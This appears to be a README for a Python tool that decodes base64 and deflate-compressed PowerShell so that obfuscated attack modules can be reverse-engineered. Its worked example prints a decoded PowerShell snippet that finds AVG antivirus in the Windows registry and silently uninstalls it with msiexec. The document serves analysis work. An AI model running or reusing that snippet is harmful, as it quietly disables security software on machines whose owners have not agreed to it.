# deflate64
Deflate64 - Decripting Base 64 strings, uncompress content

Some sploits are a collection of Microsoft Powershell modules that can be used to penetrate systems. The majority of this is made with encrypt strings in 64 and after that compressed
in deflate format.
This program decrypt base 64 strings and uncompress them, allowed you to do a reverse engineering and understood the code. 

### Usage

To get the list of basic options and information about the project:

python deflate64.py -h

### Examples of use:

```sh
 python deflate64.py -u "xZJRa8IwFIXfBf/DJfRBZbWg4sNEhgzdxuYm1tk9FCTEaw2LiUsiCl3/+zKZYp3uaWOPPff03O8e4q0kl8ZSIeo1A21IGAdye//Qv4zDp94o6gy7caTWzUa99qimGPc508qomY0jLqdqbeLrldYo7Ri14UrGz7s8Au8wUxopm0MKyRK8SXUQDqidQ+ZGV070JuAL/opAKp3xTYVsBwYFMgv7nNBqLpNWseDtUZuNc6j/iFcsfMWVDkGBS8iBlyHNn+IuOfysHiWDP8SloMxR9A3vbpBVcYPkgpCDSXB3LLx8Cq2fN400X5TKzsRneebd1QOtEk0X0OMCTYWU0wyFwdTZtPWXWjE0BsjCcNxhgU914rRgk1sFELxJCKQraPuz80WUW8iy1qna6rV8be5pHtXmHO2c4c9q+77pdG3O98u1ucTztX0A"--txt example.txt
```

Result (content example.txt):
 
 ```sh
&uninstall32s = gci "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;
$uninstall64s = gci "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;

foreach($uninstall64 in $uninstall64s) {
$uninstall64 = $uninstall64.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";
$uninstall64 = $uninstall64.Trim();
if($uninstall64 -like "*Program Files*"){}else{start-process "msiexec.exe" -args "/x $uninstall64  /qn /norestart" -Wait }};
foreach($uninstall32 in $uninstall32s) {
$uninstall32 = $uninstall32.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";
$uninstall32 = $uninstall32.Trim();
if($uninstall32 -like "*Program Files*"){}else{start-process "msiexec.exe" -args "/x $uninstall32  /qn /norestart" -Wait }};
```
